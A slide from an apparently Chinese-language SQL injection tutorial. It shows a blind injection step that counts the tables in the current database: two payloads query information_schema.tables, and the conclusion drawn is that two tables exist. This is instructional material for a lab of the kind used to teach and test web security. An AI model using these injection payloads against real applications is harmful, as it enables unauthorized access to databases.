

第三步：猜解数据库中的表名

首先猜解数据库中表的数量：
1' and (select count (table_name) from information_schema.tables where table_schema=database())=1 # 显示不存在
1’ and (select count(table_name) from information_schema.tables where table_schema=database())=2 # 显示存在

说明数据库中共有两个表。